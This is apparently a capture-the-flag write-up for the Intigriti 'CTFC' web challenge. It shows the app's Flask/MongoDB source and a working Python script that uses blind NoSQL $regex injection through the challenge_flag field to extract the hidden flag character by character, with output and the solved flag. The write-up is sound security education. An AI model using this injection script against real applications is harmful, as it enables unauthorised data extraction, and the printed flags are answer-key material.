

# CTFC

## Description

I'm excited to share my minimal CTF platform with you all, take a look! btw it's ImPAWSIBLE to solve all challenges 😺

Note: flag format is INTIGRITI{.\*}

Author: Jopraveen
https://ctfc.ctf.intigriti.io

## Source code analysis

Source code of the challenge web application is provided; main logic is written in `app.py` (slightly modified by mo to do local testing):

```python
from flask import Flask,render_template,request,session,redirect
import pymongo
import os
from functools import wraps
from datetime import timedelta
from hashlib import md5
from time import sleep

app = Flask(__name__)
app.secret_key = os.environ['SECRET_KEY']

# db settings
client = pymongo.MongoClient('localhost',27017)
db = client.ctfdb

def createChalls():
	db.challs.insert_one({"_id": "28c8edde3d61a0411511d3b1866f0636","challenge_name": "Crack It","category": "hash","challenge_description": "My friend sent me this random string `cc4d73605e19217bf2269a08d22d8ae2` can you identify what it is? , flag format: CTFC{<password>}","challenge_flag": "CTFC{cryptocat}","points": "500","released": "True"})
	db.challs.insert_one({"_id": "665f644e43731ff9db3d341da5c827e1","challenge_name": "MeoW sixty IV","category": "crypto","challenge_description": "hello everyoneeeeeeeee Q1RGQ3tuMHdfZzBfNF90aDNfcjM0TF9mbDRHfQ==, oops sorry my cat ran into my keyboard, and typed these random characters","challenge_flag": "CTFC{n0w_g0_4_th3_r34L_fl4G}","points": "1000","released": "True"})
	db.challs.insert_one({"_id": "38026ed22fc1a91d92b5d2ef93540f20","challenge_name": "ImPAWSIBLE","category": "web","challenge_description": "well, this challenge is not fully created yet, but we have the flag for it","challenge_flag": os.environ['CHALL_FLAG'],"points": "1500","released": "False"})

# login check
def check_login(f):
	@wraps(f)
	def wrap(*args,**kwrags):
		if 'user' in session:
			return f(*args,**kwrags)
		else:
			return render_template('dashboard.html')
	return wrap

# routes
from user import routes

@app.route('/')
@check_login
def dashboard():
	challs = []
	for data in db.challs.find():
		del data['challenge_flag']
		challs.append(data)	
	chall_1 = challs[0]
	chall_2 = challs[1]
	return render_template('t_dashboard.html',username=session['user']['username'],chall_1=chall_1,chall_2=chall_2)

@app.route('/register')
def register():
	return render_template('register.html')

@app.route('/login')
def login():
	return render_template('login.html')

@app.route('/logout')
def logout():
	session.clear()
	return redirect('/')

@app.route('/submit_flag',methods=['POST'])
@check_login
def submit_flag():
	_id = request.json.get('_id')[-1]
	submitted_flag = request.json.get('challenge_flag')
	chall_details = db.challs.find_one(
			{
			"_id": md5(md5(str(_id).encode('utf-8')).hexdigest().encode('utf-8')).hexdigest(),
			"challenge_flag":submitted_flag
			}
	)
	if chall_details == None:
		return "wrong flag!"
	else:
		return "correct flag!"

# wait untill mongodb start then create the challs in db
sleep(10)
createChalls()
```

Application home overview:



The application, as reported in the description, is a mock CTF site; the CTF consists of only three challenges:

```python
def createChalls():
	db.challs.insert_one({"_id": "28c8edde3d61a0411511d3b1866f0636","challenge_name": "Crack It","category": "hash","challenge_description": "My friend sent me this random string `cc4d73605e19217bf2269a08d22d8ae2` can you identify what it is? , flag format: CTFC{<password>}","challenge_flag": "CTFC{cryptocat}","points": "500","released": "True"})

	db.challs.insert_one({"_id": "665f644e43731ff9db3d341da5c827e1","challenge_name": "MeoW sixty IV","category": "crypto","challenge_description": "hello everyoneeeeeeeee Q1RGQ3tuMHdfZzBfNF90aDNfcjM0TF9mbDRHfQ==, oops sorry my cat ran into my keyboard, and typed these random characters","challenge_flag": "CTFC{n0w_g0_4_th3_r34L_fl4G}","points": "1000","released": "True"})

	db.challs.insert_one({"_id": "38026ed22fc1a91d92b5d2ef93540f20","challenge_name": "ImPAWSIBLE","category": "web","challenge_description": "well, this challenge is not fully created yet, but we have the flag for it","challenge_flag": "INTIGRITI{fake_real_flag}","points": "1500","released": "False"})
```

The last one is not displayed in the web page and contains the actual challenge flag. Data is stored in a MongoDB database.

By intercepting one of the submission requests, we can see that the body has the following structure:

```json
{
  "_id": "_id:1",
  "challenge_flag": "test_flag"
}
```

The `_id` of the database record is the double md5 of the challenge number: we expect the `_id` of the challenge flag to be the result of the same operation computed on the value "3":

```python
>>> _id = md5(md5(str(3).encode('utf-8')).hexdigest().encode('utf-8')).hexdigest()
>>> _id == "38026ed22fc1a91d92b5d2ef93540f20"
True
```

As we can see below, the application is vulnerable to [Blind NoSQL Injection attacks](https://portswigger.net/web-security/nosql-injection): if a correct query is executed, meaning the result is not Null, the application will return the message `"correct flag!"`:

```python
@app.route('/submit_flag',methods=['POST'])
#@check_login
def submit_flag():
	_id = request.json.get('_id')[-1]
	submitted_flag = request.json.get('challenge_flag')
	print(f"submitted_flag: {submitted_flag}")
	query = {
			"_id": md5(md5(str(_id).encode('utf-8')).hexdigest().encode('utf-8')).hexdigest(),
			"challenge_flag":submitted_flag
			}
	print(f"query: {query}")
	chall_details = db.challs.find_one(
			query
	)
	print(f"chall_details: {chall_details}")
	if chall_details == None:
		return "wrong flag!"
	else:
		return "correct flag!"
```

The injection is done through the `"challenge_flag"` body parameter; no sanitization on this value is done, meaning that we can set its value to a JSON object instead of a string.

Since the injection is blind, we must define a query that retrieves the flag character by character and returns a positive output anytime a new valid character is found:

```python
payload = { "_id": "_id:3", "challenge_flag": { "$regex": "^INTIGRITI{" }}
```

We can achieve this result using the `$regex` operator by defining as pattern `"^INTIGRITI{"`.

In MongoDB, the `$regex` operator is used to perform regular expression matching in queries. It allows you to find documents in a collection where a specified field matches a regular expression pattern.

In our case, the pattern `"INTIGRITI{"` describe the following condition that `"challenge_flag"` must respect:

1. `^` &rightarrow; anchors the regex at the beginning of the string.

2. `"INTIGRITI{"` &rightarrow; matches the literal string

meaning that the query will be successful and return the actual challenge flag anytime the pattern is correctly representing the substring of the flag itself from the beginning to the last discovered character (in this case `"{"`): the server response to our request will be indeed `"correct flag!"`.

We can leverage this vulnerability to iterate, for each left character to be discovered of the flag, through all the possibles printable characters and add them to the valid pattern known so far:

the server will answer `"wrong flag!"` anytime the new character `x` appended to the valid pattern is not the correct one ,until finally the correct one is encountered.

```python
payload = { "_id": "_id:3", "challenge_flag": { "$regex": "^INTIGRITI{x" }}
...
...
...
# at some point x will correspond to the correct flag character for that position -> new injected payload will be:

payload = { "_id": "_id:3", "challenge_flag": { "$regex": "^INTIGRITI{xy" }}

# where y is the new character to discover for that flag position
```

At this point the new discovered character can be added to the pattern and the whole process will start over, until the flag is completely determined (i.e. the `"}"` character is found as a valid pattern character because, as reported in the challenge description, flag format is `INTIGRITI{.*}`)

The following scripts implements the concepts described so far:

```python
import requests
import string

submit_url = "https://ctfc.ctf.intigriti.io/submit_flag"
session_cookies = {"session": "session_cookie"}

flag = "INTIGRITI{"

payload = {"_id": "_id:3", "challenge_flag": {"$regex": flag}}
regex_characters = ['.', '^', '$', '*', '+', '?', '{', '[', ']', '(', ')', '|', '\\']

while "}" not in flag:
    for c in string.printable:
        if c in regex_characters:
            continue

        payload["challenge_flag"]["$regex"] = "^" + flag + c
        blind_response = requests.post(submit_url, json=payload, cookies=session_cookies)

        if "correct flag!" in blind_response.text:
            flag += c
            print(f"found a correct character -> flag is now: {flag}")
            break

print(flag)
```

output:

```
found a correct character -> flag is now: INTIGRITI{h
found a correct character -> flag is now: INTIGRITI{h0
found a correct character -> flag is now: INTIGRITI{h0w
found a correct character -> flag is now: INTIGRITI{h0w_
found a correct character -> flag is now: INTIGRITI{h0w_1
found a correct character -> flag is now: INTIGRITI{h0w_1s
found a correct character -> flag is now: INTIGRITI{h0w_1s_
found a correct character -> flag is now: INTIGRITI{h0w_1s_7
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_P
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_PA
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_PAW
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_PAWS
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_PAWSI
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_PAWSIB
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_PAWSIBL
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_PAWSIBLE
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_PAWSIBLE}
INTIGRITI{h0w_1s_7h4t_PAWSIBLE}
```
